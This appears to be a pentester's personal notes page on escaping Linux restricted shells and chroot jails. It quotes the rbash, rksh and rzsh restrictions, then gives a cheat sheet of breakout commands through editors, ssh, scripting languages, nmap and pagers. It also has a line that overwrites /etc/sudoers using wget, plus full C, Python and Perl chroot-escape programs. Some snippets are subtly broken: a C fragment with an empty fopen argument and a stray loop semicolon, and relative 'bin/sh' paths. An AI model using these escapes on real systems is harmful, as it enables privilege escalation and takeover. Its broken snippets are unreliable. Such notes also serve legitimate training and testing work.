 # Linux Shell Escapes

These not the same as [Bypasses](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions) or [Python Sandboxes](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes), if I faceplant into needing to research those they wioll get there own article from further research than just greta Hacktricks.

Check [GTFObins](https://gtfobins.github.io/), most of the weird one from [https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf](https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf) are in here A

## Restricted shells

[Restricted Bourne shell](https://www.gnu.org/software/bash/manual/html_node/The-Restricted-Shell.html) (`rbash`)
- A restricted shell behaves identically to `bash` with the exception that the following are disallowed or not performed:
	- Changing directories with the `cd` builtin.
	- Setting or unsetting the values of the `SHELL`, `PATH`, `HISTFILE`, `ENV`, or `BASH_ENV` variables.
	- Specifying command names containing slashes.
	- Specifying a filename containing a slash as an argument to the `.` builtin command.
	- Specifying a filename containing a slash as an argument to the `history` builtin command.
	- Specifying a filename containing a slash as an argument to the -p option to the `hash` builtin command.
	- Importing function definitions from the shell environment at startup.
	- Parsing the value of `SHELLOPTS` from the shell environment at startup.
	- Redirecting output using the ‘>’, ‘>|’, ‘<>’, ‘>&’, ‘&>’, and ‘>>’ redirection operators.
	- Using the `exec` builtin to replace the shell with another command.
	- Adding or deleting builtin commands with the -f and -d options to the `enable` builtin.
	- Using the `enable` builtin command to enable disabled shell builtins.
	- Specifying the -p option to the `command` builtin.
	- Turning off restricted mode with ‘set +r’ or ‘shopt -u restricted_shell’.
[Restricted Korn shell](https://www.ibm.com/docs/en/aix/7.2?topic=r-rksh-command) (`rksh`)
- With a restricted shell a user cannot:
	- Change the current working directory.
	- Set the value of the `SHELL`, `ENV`, or `PATH` variable.
	- Specify the pathname of a command that contains a `/` (slash).
	- Redirect output of a command with `>` (right caret), `>|` (right caret, pipe symbol), `<>` (left caret, right caret), or `>>` (two right carets).
[Restricted Z shell](https://manpages.debian.org/experimental/zsh/rzsh.1.en.html) (`rzsh`)
- The following are disabled in restricted mode:
	- changing directories with the **cd** builtin
	- changing or unsetting the **EGID**, **EUID**, **GID**, **HISTFILE**, **HISTSIZE**, **IFS**, **LD_AOUT_LIBRARY_PATH**, **LD_AOUT_PRELOAD**, **LD_LIBRARY_PATH**, **LD_PRELOAD**, **MODULE_PATH**, **module_path**, **PATH**, **path**, **SHELL**, **UID** and **USERNAME** parameters
	- specifying command names containing **/**
	- specifying command pathnames using **hash**
	- redirecting output to files
	- using the **exec** builtin command to replace the shell with another command
	- using **jobs -Z** to overwrite the shell process' argument and environment space
	- using the **ARGV0** parameter to override **argv[0]** for external commands
	- turning off restricted mode with **set +r** or **unsetopt** **RESTRICTED**
 

## Escaping

- Command Injection - legal command  (enclosing) `illegal command`
- Command Substitution
- Command Chaining
- Environment Variables
- Shell Functions

## Bash Jails

Enumerate -> commented Potential breakout
```bash
echo $SHELL # 
echo $PATH
echo /usr/bin/* # no ls no problem
# Check for operators:
# > >> < | & ; : ' " `
echo "bash -i" | tee script.sh # When 
env # 
export
pwd
which $bin 
${whoami} # shelle execution
# Editors?
 vi, nano, ed, vim 
# Programming/Scripting?
php, perl, python, ruby, lua
# Unwieldy list all commands - PSJoshi
compgen -c 
```

Vim and Vi - Beware requirements for ESP key in shell holding `Ctrl` and pressing `[` can work as alterative to access Vi(m) console.
```bash
set shell=/bin/sh
:shell
```

SSH breakout the bash
```bash
ssh -t user@$ip bash # Get directly an interactive shell
ssh user@$ip -t "bash --noprofile -i"
ssh user@$ip -t "() { :; }; sh -i "
ssh user@$ip -t "/bin/sh"
```

Bring your own sudoers
```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```

Declare
```bash
declare -n PATH; export PATH=/bin/bash -i
 
BASH_CMDS[shell]=/bin/bash;shell -i
```

Create a script that runs bash in a writable file in a writable directory
```bash
red /bin/bash
find / -perm -o w -type d 2>/dev/null
> w wx/path # Write /bin/bash in a writable and executable path
```

```bash
python -c 'import os; os.system("/bin/sh")'
php -r 'exec("sh -i");'
perl -e 'exec "/bin/sh"'
ruby -e 'exec "bin/sh"'
lua -e 'os.execute("bin/sh")'
awk 'BEGIN {system("/bin/sh")}'
find / -name foobar -exec /bin/sh \;
nmap --interactive
nmap> !sh
```

```
FILE *fptr; fptr = fopen( , "r"); c = fgetc(fprt); while (c != EOF); { printf ("%c", c); c = fgetc(fprt);} fclose(fptr);
```


A [[Reverse-Shells-Listing]] that would call `/bin/bash` or `/bin/sh`?

Pagers like Less or More  - Hacknos, untested and not well documented - NullByte fixes that
```bash
# pager binaries
less $file.txt
more $file.txt
```

```
!'bash'
!/bin/bash
!/bin/sh
```

## Chroot 

If you are root inside a chroot you can escape creating another chroot. 

```
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
    mkdir("chroot-dir", 0755);
    chroot("chroot-dir");
    for(int i = 0; i < 1000; i++) {
        chdir("..");
    }
    chroot(".");
    system("/bin/bash");
}
```

Using Python
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
    os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
```

Perl:
```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
    chdir ".."
}
chroot ".";
system("/bin/bash");
```



## Kubernetes Restricted Environment

If it is not docker then you may need to escape a Kuberenetes cluster; for more detailed information about Kubernetes or Hacking Kuberenetes see [[Kubernetes]] and [[Kubernetes-Hacking]]

## References

[Hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/escaping-from-limited-bash)
[Rbash escapes Article from hacknos](https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/)
[Nullbyte](https://null-byte.wonderhowto.com/how-to/escape-restricted-shell-environments-linux-0341685/)
[PSJoshi ans comgen -c](https://gist.github.com/PSJoshi/04c0e239ac7b486efb3420db4086e290)
[exploit-db article](https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf)
[Restricted Bourne shell](https://www.gnu.org/software/bash/manual/html_node/The-Restricted-Shell.html) 
[Restricted Korn shell](https://www.ibm.com/docs/en/aix/7.2?topic=r-rksh-command) 
[Restricted Z shell](https://manpages.debian.org/experimental/zsh/rzsh.1.en.html) 